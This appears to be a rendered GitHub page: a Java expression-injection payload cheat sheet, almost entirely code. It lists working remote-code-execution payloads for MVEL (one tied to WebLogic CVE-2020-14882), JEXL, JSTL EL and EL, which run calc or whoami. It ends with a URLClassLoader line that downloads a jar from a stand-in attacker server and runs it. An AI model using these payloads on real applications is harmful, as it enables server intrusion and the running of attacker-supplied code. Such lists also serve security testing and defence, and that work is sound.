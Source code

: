 - MVEL
```java
String expression = "new java.lang.ProcessBuilder(/"calc/").start();";  
MVEL.eval(expression, vars);
```
```java
// weblogic CVE-2020-14882
com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('calc.exe');");
```

- JEXL
```java
String Exp = "233.class.forName('java.lang.Runtime').getRuntime().exec('whoami')";
JexlEngine engine = new JexlBuilder().create();
JexlExpression Expression = engine.createExpression(Exp);
JexlContext Context = new MapContext();
Expression.evaluate(Context);
```
- JSTL_EL
```jsp
<spring:message text="${\"\".getClass().forName(\"java.lang.Runtime\").getMethod(\"getRuntime\",null).invoke(null,null).exec(\"calc\",null).toString()}">
</spring:message>
```

- EL
```java
String expression = "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder('calc').start()\")";
ELManager manager = new ELManager();
ELContext context = manager.getELContext();
ExpressionFactory factory = ELManager.getExpressionFactory();
ValueExpression ve = factory.createValueExpression(context, "${" + expression + "}", Object.class);
ve.getValue(context);

ELProcessor processor = new ELProcessor();
Process process = (Process) processor.eval("\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder('calc').start()\")");
```

### ClassLoader
- URLClassLoader
```java
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8888/bcel.jar")}).loadClass("BCEL").getConstructor().newInstance();
```

